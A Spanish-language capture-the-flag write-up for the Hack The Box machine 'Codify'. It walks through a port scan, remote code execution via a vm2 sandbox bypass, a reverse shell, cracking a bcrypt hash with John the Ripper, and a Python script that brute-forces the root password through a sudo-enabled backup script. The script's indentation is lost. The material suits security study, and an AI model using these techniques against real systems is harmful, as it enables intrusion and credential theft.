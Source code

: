 ```yaml
---
layout: single
title: Codify - Hack The Box
excerpt: "Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS"
date: 2023-11-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-codify/codify_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - vm2 Sandbox Bypass
  - RCE
  - db creds
  - password cracking
  - abusing sudoers
  - brute force login

---
```


![](/assets/images/htb-writeup-codify/codify_logo.png)

Para vulnerar esta máquina ByPasseamos la medidad de seguridad de la biblioteca vim2 donde podemos ejecutar código malicioso NodeJS, pudiendo así llevar a cabo una ejecución Remota de Comandos, aprovechándonos de esto nos entablamos una Reverse Shell para posterior a ello escalar Privilegios con unas credenciales de una base de datos que estarían hasheadas, usamos una herramienta para ver en texto plano las credenciales, por último llevaríamos a cabo una Escalada de Privilegios para convertirnos en ROOT aprovechandonos de un .sh del cual tenemos SUDOERS


# PortScan
________

```
nmap -p- --open -vvv --min-rate 5000 -Pn -n 10.10.11.239
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-08 12:23 AST
Initiating SYN Stealth Scan at 12:23
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 12:23, 13.36s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.054s latency).
Scanned at 2023-11-08 12:23:17 AST for 13s
Not shown: 65520 closed tcp ports (reset), 12 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
           Raw packets sent: 67086 (2.952MB) | Rcvd: 65581 (2.623MB)
```


# Sitio Web
_________

![](/assets/images/htb-writeup-codify/Pasted image 20231108122352.png)

Sí leemos, vemos qué es un sitio web para probar código en Node.js, lo primero qué se me ocurre es probar código malicioso JavaScript, pero seguimos indagando un poco en la página, hasta que en la parte izquierda vemos una opción de "**About US**", clickeó allí para ver sí dan algún tipo de información.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122528.png)

Como vemos nos dice qué está usando una librería **"vm2"**, para evitar el JavaScript & qué también tiene una capa de seguridad para evitar código malicioso, lo primero que se me ocurre es buscar en internet posibles **ByPass** para el vm2, así encontrando este recurso:

[Click aquí para ir al recurso](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100)

El recurso nos proporciona un **PoC** para llevar a cabo una **RCE**, lo probamos en el editor de texto del sitio web.

![](/assets/images/htb-writeup-codify/Pasted image 20231108122947.png)

Como vemos estamos llevando a cabo una ejecución Remota de Comandos, por lo qué podemos entablarnos una Reverse Shell de manera fácil.
![](/assets/images/htb-writeup-codify/Pasted image 20231108123302.png)

Nos ponemos en escucha...

![](/assets/images/htb-writeup-codify/Pasted image 20231108123251.png)


Obtendríamos la Reverse Shell y estaríamos dentro de la máquina, tan sólo quedaría darle tratamiento a la TTY, sino sabes, te recomiendo ver este post.[((Click aquí))]()

# Escalada de Privilegios #1
_______

Sí vemos el **"/etc/passwd"** veríamos que hay un usuario con nombre "**joshua**", así que nos interesaría convertirnos en él, buscando recursos qué podamos leer y aprovecharnos, encontramos en la ruta "**/var/www/conctact**" que dentro contiene una .db.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123645.png)


Como vemos tenemos un hash con lo que parece ser la contraseña, así que usamos la herramienta "**John The Rippe**r" para tratar de hacerle un descrypt.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt --show
```

dentro del "hash.txt" pondríamos el hash qué vimos de la .db para brute forcearlo, dándonos al cabo de unos minutos la credencial correspondiente del usuario **Joshua**, por lo qué podríamos convertirnos en él.

![](/assets/images/htb-writeup-codify/Pasted image 20231108123956.png)

# Escalada de Privilegios #2
_____

Sí buscamos por permisos SUDOERS.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124112.png)

Vemos que podemos ejecutar como **Root** el script en Bash "**mysql-backup.sh**", lo ejecutamos para ver como funciona.
![](/assets/images/htb-writeup-codify/Pasted image 20231108124236.png)

Debemos proporcionar la contraseña de **Root**, cuyas credenciales no sabemos, pero como podemos ejecutar el script las veces qué queramos podemos hacer un ataque de fuerza bruta, para ello nos aprovechamos del siguiente script en Python.

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
for character in all:  
command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
if "Password confirmed!" in output:  
password += character  
print(password)  
break  
else:  
found = True
```

Que al ejecutarlo nos reportará la contraseña, y ya podemos convertirnos en ROOT.

![](/assets/images/htb-writeup-codify/Pasted image 20231108124612.png)
